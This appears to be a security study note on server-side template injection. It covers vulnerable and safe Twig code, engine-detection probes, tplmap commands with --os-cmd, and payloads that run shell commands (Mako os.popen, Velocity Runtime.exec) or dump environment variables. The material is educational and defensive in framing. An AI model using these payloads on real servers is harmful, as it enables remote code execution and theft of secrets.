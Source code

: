```yaml
---
title: "Server Side Templete Injection"
tags:
    - WEB
    - ssti
date: "2024-08-6"
thumbnail: "/assets/img/thumbnail/ssti.jpg"
bookmark: true
---
```

# Description
---
some web application use template to enable dynamic content generation in pages 
Attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
attacks depending on the template engine in question and how exactly the application uses it.
# impact
---
- remote code execution,
- taking full control of the back-end server
- read access to sensitive data and arbitrary files on the server.
---
**Not vulnerable to server-side template injection:**
because the user's first name is merely passed into the template as data.
```python
 $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
**Vulnerable to server-side template injection:**
```python
`$output = $twig->render("Dear " . $_GET['name']);`
```
**Server-side template injection attack**
<img src="/assets/img/ssti/1.png">
<img src="/assets/img/ssti/2.png">
For example, the payload `{{7*'7'}}`returns `49`in Twig and `7777777` in Jinja2

**Basic template syntax**
```python
<%
    import os
    x=os.popen('id').read()
%>
    ${x}
```
**To get Template type:**
1- make error to get it like abuse syntax
2- trying 
```bash
{{7*7}}
${7*7}
${{7*7}}
#{7*7}
*{7*7}
```
**Tools**
1- The basic syntax for tplmap is different depending on whether you're using get or post
 GET ->  tplmap -u <url>/?<vulnparam> 

 POST-> tplmap -u <url> -d <vulnparam> 
```bash
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’ --os-cmd “id”
```
**Explore**
Many template engines expose a "`self`" or "`environment`" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine.
Some objects because they are especially likely to contain sensitive information or exploitable methods.
For example, in Java-based templating languages, you can sometimes 
list all variables in the environment using the following injection:
```java
${T(java.lang.System).getenv()}
```
**Exploit using an object chain (way to bypass sandbox)**
Chaining together the right objects and methods sometimes allows you to gain access to dangerous functionality and sensitive data that initially appears out of reach.
For example, in the Java-based template engine Velocity, you have access to a `ClassTool` object called `$class`. Studying the documentation reveals that you can chain the `$class.inspect()` method and `$class.type`property to obtain references to arbitrary objects. In the past, this 
has been exploited to execute shell commands on the target system as 
follows:
```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
# Mitigation

- never allow users to modify or create templates.
- use of regex, white lists of authorised expressions.
- Sandboxing that creates a safe, isolated environment for users. but sandbox environments are difficult to set up and can be bypassed
  by misconfiguration or oversights.
---

